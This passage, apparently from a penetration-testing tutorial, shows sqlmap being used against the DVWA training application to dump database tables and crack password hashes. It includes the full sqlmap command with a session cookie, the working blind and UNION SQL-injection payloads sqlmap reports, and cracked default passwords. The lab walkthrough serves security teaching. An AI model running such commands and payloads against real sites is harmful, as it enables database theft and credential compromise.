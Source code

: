     [17:49:15] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/192.168.8.142'

    [*] ending @ 17:49:15 /2022-11-17/


Finally, dump the contents of the database tables, and if by chance the database contains passwords (hash), attack them and show them in clear:

    sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" -D dvwa --dump

Displays all the information on the tables:

    [*] starting @ 17:50:14 /2022-11-17/

    [17:50:14] [INFO] resuming back-end DBMS 'mysql' 
    [17:50:14] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: id (GET)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=1' AND (SELECT 5671 FROM (SELECT(SLEEP(5)))BOiy) AND 'xUEn'='xUEn&Submit=Submit

        Type: UNION query
        Title: Generic UNION query (NULL) - 2 columns
        Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x71626b7871,0x7976636d7453776c574977647564714f73414f6e4b526649457a696b7269526c6b447a6d4d694864,0x717a786b71)-- -&Submit=Submit
    ---
    [17:50:14] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
    web application technology: Apache 2.2.8, PHP 5.2.4
    back-end DBMS: MySQL >= 5.0.12
    [17:50:14] [INFO] fetching tables for database: 'dvwa'
    [17:50:14] [INFO] fetching columns for table 'guestbook' in database 'dvwa'
    [17:50:14] [INFO] fetching entries for table 'guestbook' in database 'dvwa'
    Database: dvwa
    Table: guestbook
    [1 entry]
    +------------+------+-------------------------+
    | comment_id | name | comment                 |
    +------------+------+-------------------------+
    | 1          | test | This is a test comment. |
    +------------+------+-------------------------+

    [17:50:14] [INFO] table 'dvwa.guestbook' dumped to CSV file '/home/user/.local/share/sqlmap/output/192.168.8.142/dump/dvwa/guestbook.csv'
    [17:50:14] [INFO] fetching columns for table 'users' in database 'dvwa'
    [17:50:14] [INFO] fetching entries for table 'users' in database 'dvwa'
    [17:50:14] [INFO] recognized possible password hashes in column 'password'
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
    [17:50:16] [INFO] writing hashes to a temporary file '/tmp/sqlmapta_csoz059449/sqlmaphashes-rx37k28o.txt' 
    do you want to crack them via a dictionary-based attack? [Y/n/q] y
    [17:50:18] [INFO] using hash method 'md5_generic_passwd'
    [17:50:18] [INFO] resuming password 'password' for hash '5f4dcc3b5aa765d61d8327deb882cf99'
    [17:50:18] [INFO] resuming password 'abc123' for hash 'e99a18c428cb38d5f260853678922e03'
    [17:50:18] [INFO] resuming password 'charley' for hash '8d3533d75ae2c3966d7e0d4fcc69216b'
    [17:50:18] [INFO] resuming password 'letmein' for hash '0d107d09f5bbe40cade3de5c71e9e9b7'
    Database: dvwa
    Table: users
    [5 entries]
    +---------+---------+------------------------------------------------------+---------------------------------------------+-----------+------------+